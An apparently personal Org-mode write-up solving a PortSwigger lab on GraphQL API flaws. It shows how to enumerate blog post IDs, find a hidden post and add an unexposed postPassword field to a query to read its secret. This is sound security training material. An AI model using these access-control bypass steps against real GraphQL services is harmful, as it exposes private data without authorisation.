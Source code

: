 #+title: Accessing private Graphql posts
#+author: [[https://github.com/touhidulshawan][Touhidul Shawan]]
#+description: Graphql API Vulnerabilities Labs from Portswigger
#+date: 2023-10-16 Mon
#+options: toc:2

* Table of Contents :toc:
- [[#lab-contain][Lab contain]]
- [[#end-goal][End Goal]]
- [[#exploit][Exploit]]

* Lab contain
- contain a hidden blog post that has a secret password
* End Goal
- access to hidden blog post to fetch secret password and submit as the answer
* Exploit
- Access the lab
- Make sure to install inql extension on burp to make this easier
- Find the graphql endpoint
  - Find two point =/graphql/v1=
   #+begin_src graphql
     query getBlogSummaries {
         getAllBlogPosts {
             image
             title
             summary
             id
         }
     }
#+end_src
- This endpoint fetch all the blog post
#+begin_src json
  I just delete image & summary result
  {
    "data": {
      "getAllBlogPosts": [
        {
          "title": "The Lies People Tell",
          "id": 5
        },
        {
          "title": "Finding Inspiration",
          "id": 4
        },
        {
          "title": "Festivals",
          "id": 1
        },
        {
          "title": "Trying To Save The World",
          "id": 2
        }
      ]
    }
  }
#+end_src
- Here we can see that id =3= is missing. So we figured out that id =3= is our hidden post
- Now find out endpoint for single blog post. Click on any =view post= button to get the request
 #+begin_src graphql
   query getBlogPost($id: Int!) {
       getBlogPost(id: $id) {
           image
           title
           author
           date
           paragraphs
       }
   }
#+end_src
- User scanner on InQL to findout more fields. And see that for this endpoint it has =postPassword= field
 #+begin_src graphql
   query getBlogPost($id: Int!) {
     getBlogPost(id: $id) {
       image
       title
       author
       date
       paragraphs
       postPassword
     }
   }
#+end_src
- Send the request. It will return data with =postPassword= value. Copy and submit as answer to solve the lab
